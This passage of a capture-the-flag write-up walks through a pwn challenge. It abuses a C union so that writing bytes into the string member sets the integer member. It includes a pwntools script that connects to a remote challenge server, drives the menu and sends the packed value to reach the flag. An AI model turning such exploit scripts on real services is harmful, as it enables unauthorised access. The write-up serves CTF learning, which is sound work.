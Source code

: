 ```

>> R

This does not seem to work.. (L)ie down or (S)cream

>> L

Anything else to try?

>> 44903392628

(T)ry to turn it off
(R)un
(C)ry
```

**So, what if I set the `DataStore.integer` is `13371337` via copying a string?**

**After fumbling around and banging my head against the wall, I found something interesting:**
```c
static union {
    unsigned long long integer;
    char string[8];
} DataStore;
```

In the `DataStore.integer` variable, it's a **union variable, which means it creates a user-defined type.** (Source: [Programiz](https://www.programiz.com/c-programming/c-unions))

**Now, we can abuse this to overwrite the byte of the `DataStore.integer` via storing the `13371337` characters to the union string array.**

**To do so, I'll write python script:**
```py
#!/usr/bin/env python3

from pwn import *

context.log_level = 'critical' # No logging
elf = context.binary = ELF('./entity')

debug = False

if debug == True:
    p = process()
else:
    p = remote('161.35.33.243', 30956)

# T -> S -> 13371337 in hex (Little endian) -> R -> L -> C (Get the flag)
p.recvuntil(b'>> ')
p.sendline(b'T')
p.recvuntil(b'>> ')
p.sendline(b'S')
p.recvuntil(b'>> ')

# Send 13371337 in hex (Little endian)
p.sendline(pack(13371337))

p.recvuntil(b'>> ')
p.sendline(b'R')
p.recvuntil(b'>> ')
p.sendline(b'L')
p.recvuntil(b'>> ')
p.sendline(b'C')
p.recvuntil(b'>> ')

```